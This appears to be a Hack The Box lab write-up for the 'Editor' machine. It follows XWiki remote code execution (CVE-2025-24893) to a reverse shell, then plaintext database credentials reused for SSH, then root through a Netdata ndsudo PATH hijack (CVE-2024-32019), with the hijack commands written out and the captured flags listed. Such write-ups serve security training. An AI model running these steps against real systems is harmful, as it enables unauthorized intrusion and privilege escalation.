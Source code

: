 # Editor - Hack The Box  

<img src="meme.png" alt="Cerberus Emoji" width="550"/>

## Overview
**Editor** is an Easy difficulty Linux machine on Hack The Box that demonstrates exploitation of a vulnerable web service (XWiki), credential discovery, and privilege escalation through a Netdata misconfiguration.  
The attack chain highlights real-world issues such as outdated software (CVE-2025-24893) and insecure `PATH` handling (CVE-2024-32019).

![Nmap Scan](picture1.png)

---

## Enumeration
1. **Nmap Scan**
```bash
nmap -sCV -p- editor.htb
```
![Nmap Scan](picture2.png)

   - Open ports: `22 (SSH)`, `80 (HTTP)`, `8080 (XWiki)`
   - Web service: XWiki 15.10.8 detected.

2. **Host File Configuration**

This allowed me to access the website directly by visiting http://editor.htb.

![Full Port Scan](picture3.png)

---

2. **Web Enumeration**
- Accessing `http://editor.htb:80` reveals a futuristic code editor website. 
- Not sure anything interesting here after going through the website, let's move on to the next website.

![Full Port Scan](picture4.png)

- Accessing `http://editor.htb:8080` reveals an **XWiki** login portal.
- Version check shows it is vulnerable to RCE.

![Full Port Scan](picture6.png)

---

## Exploitation

### Step 1 – XWiki RCE (Foothold)
- Vulnerability: **CVE-2025-24893**
- Exploit: Remote Code Execution via crafted payload.
- Public PoC available (e.g., [dollarboysushil/CVE-2025-24893](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC)).
- Result: Reverse shell obtained as user **`xwiki`**.

![Full Port Scan](picture8.png)

![Full Port Scan](picture9.png)

![Full Port Scan](picture10.png)

![Full Port Scan](picture11.png)

Trying to access the home folder, we been restricted from accessing the **oliver** directory as we does not have the permission as user **oliver**.

![Full Port Scan](picture12.png)

Now for **initial step** to gain the escalated priviledge, let's download **linpeas.sh** from my machine into the server.

![Full Port Scan](picture13.png)

Let's run the linpeas.sh to scan through the server to find **vulnerabilities**.

![Full Port Scan](picture14.png)

Now, there is a section displayed in the linpeas.sh that reveal the locations that might be interesting to find the **potential credentials**.

![Full Port Scan](picture15.png)

### Step 2 – Credential Discovery
- Inside `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`, credentials are stored in plaintext:
```xml
<property name="connection.username">oliver</property>
<property name="connection.password">theEd1t0rTeam99</property>
```
![Full Port Scan](picture16.png)

![Full Port Scan](picture17.png)

![Full Port Scan](picture18.png)

- SSH with these credentials:
  ```bash
  ssh oliver@editor.htb
  ```
- User flag obtained: `user.txt`.

![Full Port Scan](picture19.png)

**User Flag:** `f3314c85e144f791a8a5e0fc31c67118`

---

## Privilege Escalation

### Step 3 – Netdata PATH Hijack
- Local service: **Netdata** running on port `19999`.
- Binary: `/usr/bin/ndsudo` (SUID root).
- Issue: Trusts the `PATH` environment → vulnerable to **CVE-2024-32019**.

![Full Port Scan](picture20.png)

#### Automated Exploitation:

![Full Port Scan](picture22.png)

Let's clone the repo and compile the binary first in my machine before transfering it to the victim's server.

![Full Port Scan](picture23.png)

After downloading it into the server, we need to hijack the path to the original nvme binary file to our malicious nvme binary file (in tmp).

![Full Port Scan](picture24.png)

Let's use the `-h option` to see how to run the ndsudo file.

Here the interesting part:

- For `nvme` we have 2 command:
1. nvme-list 
2. nvme-smart-log 

- For `megacli` we have 2 command:
1. megacli-disk-info
2. megacli-battery-info 

- For `arcconf` we have 2 command:
1. arcconf-ld-info
2. arcconf-pd-info

![Full Port Scan](picture27.png)

Now, because we created the malicious named **nvme**, let's run the ndsudo with the command **nvme-list**.

Lets gooo!!! We've got the **Root permission**!

![Full Port Scan](picture25.png)

**Root Flag:** `db0284a56b422ffbac5aff84badac070`

#### Alternate Manual Exploitation:
1. Create a malicious binary:
   ```bash
   echo '/bin/bash -p' > nvme
   chmod +x nvme
   ```
2. Prepend current directory to `PATH`:
   ```bash
   export PATH=.:$PATH
   ```
3. Execute:
   ```bash
   ndsudo nvme-list
   ```
4. Root shell obtained.  
   Read the root flag: `root.txt`.

---

### MACHINE PWNED 

![Root Directory](picture26.png)
> **⚠️ Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before testing security tools and techniques. The author is not responsible for any misuse of the information provided.

**🎯 Machine Completed:** `9 Sep 2025`
**🏆 Flags Captured:** `2/2`
